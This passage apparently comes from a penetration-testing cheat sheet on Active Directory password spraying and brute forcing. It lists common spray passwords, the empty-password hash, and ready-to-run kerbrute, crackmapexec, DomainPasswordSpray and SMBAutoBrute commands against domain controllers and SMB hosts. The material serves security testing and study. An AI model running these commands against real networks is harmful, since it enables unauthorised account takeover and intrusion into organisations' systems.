 :warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :
- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

### Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- `P@ssw0rd01`, `Password123`, `Password1`, `Hello123`, `mimikatz`
- `Welcome1`/`Welcome01`
- $Companyname1 :`$Microsoft1`
- SeasonYear : `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)
- Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)


#### Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```

#### Spray a pre-generated passwords list

* Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```